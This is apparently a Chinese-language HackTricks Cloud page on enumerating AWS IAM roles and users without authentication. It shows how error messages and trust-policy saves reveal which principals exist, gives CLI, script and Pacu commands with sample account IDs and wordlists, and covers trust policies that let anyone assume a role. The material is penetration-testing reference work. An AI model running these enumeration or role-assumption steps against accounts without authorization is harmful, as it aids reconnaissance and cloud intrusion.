 # AWS - IAM & STS 未认证枚举

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 枚举账户中的角色和用户名

### ~~假设角色暴力破解~~

{% hint style="danger" %}
**此技术不再有效**，因为无论角色是否存在，您总是会收到此错误：

`发生错误 (AccessDenied)，在调用 AssumeRole 操作时：用户：arn:aws:iam::947247140022:user/testenv 无权执行：sts:AssumeRole 资源：arn:aws:iam::429217632764:role/account-balanceasdas`

您可以**通过运行以下命令进行测试**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

尝试**在没有必要权限的情况下假设角色**会触发 AWS 错误消息。例如，如果未授权，AWS 可能会返回：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
此消息确认角色的存在，但表明其假设角色策略不允许您进行假设。相反，尝试**假设一个不存在的角色会导致不同的错误**：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
有趣的是，这种**区分现有角色和不存在角色**的方法甚至适用于不同的AWS账户。只需一个有效的AWS账户ID和一个目标词汇表，就可以枚举该账户中存在的角色，而不会面临任何固有的限制。

您可以使用这个[脚本来枚举潜在的主体](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)来利用这个问题。

### 信任策略：暴力破解跨账户角色和用户

配置或更新**IAM角色的信任策略涉及定义哪些AWS资源或服务被允许假设该角色**并获得临时凭证。如果策略中指定的资源**存在**，则信任策略**成功**保存。然而，如果资源**不存在**，则会生成一个**错误**，指示提供了无效的主体。

{% hint style="warning" %}
请注意，在该资源中，您可以指定一个跨账户角色或用户：

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

这是一个策略示例：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

如果您使用一个 **不存在的角色**，您将会发现这个 **错误**。如果角色 **存在**，策略将会 **保存** 而没有任何错误。（这个错误是针对更新的，但在创建时也适用）

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
您可以使用 [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) 自动化此过程。

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

我们使用 [Pacu](https://github.com/RhinoSecurityLabs/pacu)：

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 示例中使用的 `admin` 角色是 **您帐户中的一个角色，由 pacu 进行模拟** 以创建其需要创建的策略以进行枚举。

### Privesc

如果角色配置不当并允许任何人假设它：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## 第三方 OIDC 联邦

想象一下，你成功读取了一个访问 **AWS** 中 **角色** 的 **Github Actions 工作流**。\
这个信任可能会给予对具有以下 **信任策略** 的角色的访问：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
这个信任策略可能是正确的，但**缺乏更多条件**应该让你对它产生不信任。\
这是因为之前的角色可以被**来自 Github Actions 的任何人**假设！你应该在条件中指定其他内容，例如组织名称、仓库名称、环境、分支...

另一个潜在的错误配置是**添加一个条件**，如下所示：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意在**冒号**(:)之前的**通配符**(*)。您可以创建一个组织，例如**org\_name1**并从Github Action中**假设角色**。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
